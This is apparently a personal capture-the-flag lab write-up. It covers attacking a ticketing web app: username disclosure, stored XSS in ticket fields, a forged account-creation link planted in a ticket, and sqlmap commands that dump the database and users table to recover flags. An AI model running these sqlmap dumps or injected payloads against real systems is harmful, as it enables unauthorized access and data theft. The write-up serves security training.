 Login has information disclosure on error message: `Invalid username`

![[Pasted image 20240910072533.png]]

I confirm the admin username. Interestingly Admin also works, so they app could be ignore capitalisation. 

**SQLMap on the id= parameter:** 

Database:

MariaDB

available databases [4]:                                                                                          
[*] information_schema
[*] level7
[*] mysql
[*] performance_schema

web application technology: OpenResty 1.25.3.2
back-end DBMS: MySQL >= 5.0 (MariaDB fork)

```php
Database: level7                                                                                                  
[2 tables]
+---------+
| tickets |
| users   |
+---------+
```

Contains things we already know about:
- Earlier posts
- admin account, plus the test accounts i made
- I didn't see the Admin account, so maybe that was a capitalisation issue, but it might be worth exploring to see what was happening there.

```php
Database: mysql
Table: proxies_priv
[1 entry]
+-----------+--------+---------+------------+---------------------+--------------+--------------+
| Host      | User   | Grantor | With_grant | Timestamp           | Proxied_host | Proxied_user |
+-----------+--------+---------+------------+---------------------+--------------+--------------+
| localhost | root   | <blank> | 1          | 2018-12-12 07:42:19 | <blank>      | <blank>      |
+-----------+--------+---------+------------+---------------------+--------------+--------------+
```

**Comment post:** 

`/ticket?id=2`
Both the title and the description is vulnerable to XSS.

![[Pasted image 20240910131516.png]]

**New User Request:** 

```php
sqlmap -r newuserreq.txt --dbs --dump
```

I capture the make a new user request and try sqlmap. 

`GET /newUser?username=capture&password=123&password2=123`

---

Looking at the lab again i annoyingly notice that the demo instance does not have any flags! So i'll fire up the live instance and just add it in this section instead of making a new one.

**Live Instance**

Looks like i first need to get into the app. I add on the create new user request to the url to see if i can create a user. 

![[Pasted image 20240911053953.png]]

`href="http://localhost/newUser?username=test&password=test&password2=test">TEST</a>`

Payload

```html
href="http://localhost/newUser?username=test&password=test&password2=test">TEST</a>
```

I add the payload to the `submit ticket` feature and then log in with user:test pass:test, this also fires the XSS i used earlier:

![[Pasted image 20240911055727.png]]

![[Pasted image 20240911055928.png]]

![[Pasted image 20240911055957.png]]

`^FLAG^9fd7adc96118cc48e8ae3ee2cafab912cb748763ba4de8e2052657e61f820ce6$FLAG$`

Now i just need to save the `GET /ticket?id=1` request, and use it with sqlmap to dump the database.

Capture ticket request in burpsuite, and save it to a file for sqlmap.

```php
sqlmap -r idreq.txt --dbs --batch
```

```php
sqlmap -r idreq.txt -D level7 --tables --batch  
```

```php
sqlmap -r idreq.txt -D level7 -T users --dump --batch 
```

![[Pasted image 20240911060612.png]]

`^FLAG^8de5f7fcfbc55844acef57ad80fedf964e98e876d9833c9ea75ab447f7f7ec59$FLAG$`

This completes the lab, and i'll have to pay more attention to the description next time. The demo is for exploring the app and it's functionality, the live was for exploit hunting.

---

**Completed:** _06:09 2024-09-11_



